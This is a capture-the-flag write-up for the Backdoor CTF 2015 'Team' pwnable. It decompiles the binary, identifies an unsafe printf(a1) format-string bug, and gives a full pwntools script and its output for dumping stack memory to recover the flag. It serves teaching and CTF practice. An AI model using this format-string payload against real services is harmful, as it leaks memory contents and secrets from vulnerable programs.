# Backdoor CTF 2015: Team

**Category:** Pwnable
**Points:** 600
**Description:** 

> There is a wierd kind of authentication service running: nc hack.bckdr.in 8004.
> 
> The binary can be found [here](challenge/team).
> The vampire says that there is no need for bruteforce.

## Write-up

We first check the binary:

>```bash
>file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x6d83b63fd19b24c9023ec3e7f43f563da4dcd729, stripped
>```

Fire up gdb (with [PEDA](https://github.com/longld/peda)):

>```bash
> gdb-peda$ checksec
> CANARY    : ENABLED
> FORTIFY   : disabled
> NX        : ENABLED
> PIE       : disabled
> RELRO     : Partial
>```

Looks like we're dealing with a 32-bit ELF executable with non-exec stack and stack canary. Let's decompile it (function names added for clarity):

>```c
>int entryroutine()
>{
>  const char *v0; // ST18_4@1
>  const char *v1; // ST1C_4@1
>
>  v0 = (const char *)malloc(0xC8u);
>  v1 = (const char *)malloc(0x64u);
>  printf("Enter teamname: ");
>  fflush(stdout);
>  __isoc99_scanf("%200s", v0);
>  printf("Enter flag: ");
>  fflush(stdout);
>  __isoc99_scanf("%100s", v1);
>  sleep(2u);
>  checkflag(v0, v1);
>  free((void *)v0);
>  free((void *)v1);
>  return 0;
>}
>
>signed int __cdecl checkflag(const char *a1, const char *a2)
>{
>  signed int result; // eax@2
>  int v3; // edx@7
>  FILE *stream; // [sp+24h] [bp-74h]@1
>  char s; // [sp+28h] [bp-70h]@3
>  int v6; // [sp+8Ch] [bp-Ch]@1
>
>  v6 = *MK_FP(__GS__, 20);
>  stream = fopen("flag.txt", "r");
>  if ( stream )
>  {
>    fgets(&s, 100, stream);
>    printf(a1);
>    if ( !strcmp(&s, a2) )
>      puts(" : correct flag!");
>    else
>      puts(" : incorrect flag. Try again.");
>    fclose(stream);
>    result = 0;
>  }
>  else
>  {
>    result = 1;
>  }
>  v3 = *MK_FP(__GS__, 20) ^ v6;
>  return result;
>}
>```

As we can see the application first asks for our team name and the flag, sleeps for 2 seconds and calls checkflag(teamname, flag).
The checkflag routine is a simple routine which opens the flag file, reads the flag into variable s (which is on the stack), compares it to the flag we supplied and tells us if it was correct. The vulnerability is fairly obvious in the following line:

>```c
>    printf(a1);
>```

Calling printf with a user-supplied format specifier leads to a trivial format-string exploit. In this case we don't even have to pop a shell since we can simply read the flag from the stack. We can do this by [dumping](solution/teamsploit.py) the first 30 8-byte words (using the %llx format specifier) from the stack:

>```python
>#!/usr/bin/python
>#
># Backdoor CTF 2015
># TEAM (PWN/600)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>from struct import pack, unpack
>
># Split into blocks
>def split_blocks(b, block_size):
>  return [b[i:i+block_size] for i in range(0, len(b), block_size)]
>
># Reverse order (take block size into account)
>def rev(b, block_size):
>  blocks = split_blocks(b, block_size)
>  return "".join(blocks[::-1])
>
>host = 'hack.bckdr.in'
>h = remote(host, 8004, timeout = None)
>print h.recvuntil('Enter teamname: ')
># Send format string exploit (dump 30 8-byte words from stack)
>h.send("%llx." * 30 + "\n")
>print h.recvuntil('Enter flag: ')
>h.send("blaat\n")
>msg = h.recvall()
>print msg
>h.close()
>
># Split stack words
>msg = msg.split(".")
>
># Chop flag into correct representation
>blocks = [msg[4][0:8]]
>
>for part in msg[5: 12]:
>  blocks.append(part)
>
>blocks.append(msg[12][7:])
>
>hsh = ""
>for block in blocks:
>  hsh += rev(block, 2)
>
>print "[+]Got flag: [%s]" % hsh
>```

When dumping the stack, you can see several words (seperated by periods), some of which consist of hexadecimal representation of ascii characters only. This is where the flag is located. It's not neatly aligned with the way we dumped it but a little bit of (dirty) parsing (see above) can fix that (keep in mind the dumped stack words are in reverse order and every 2 characters of the hexadecimal representation of the flag represent a single flag character). This gives us the following output:

>```bash
>$ python teamsploit.py 
>[+] Opening connection to hack.bckdr.in on port 8004: Done
>Enter teamname: 
>Enter flag: 
>[+] Recieving all data: Done (451B)
>[*] Closed connection to hack.bckdr.in port 8004
>942414000000064.f76f8c20.94240d800000001.f772255c09424008.3566336409424140.3765313964363031.3835656232346137.6138356463613530.3131646164386231.3563636638376661.6664326331383366.3533353936333635.804830062663137.1.1.ffb4b43800000000.1f7715500.7d80e100.ffb4b43800000000.94240080804880c.ffb4b4dc094240d8.f76f83c4f758410d.9424008f7722000.8048830094240d8.0.1f756aa63.ffb4b4dcffb4b4d4.1f770fcea.ffb4b474ffb4b4d4.80482e00804a038. : incorrect flag. Try again.
>
>[+]Got flag: [64336635313036643931653737613432626535383035616364353861316238646164313161663738666363356633383163326466353633363935333537316662]
>```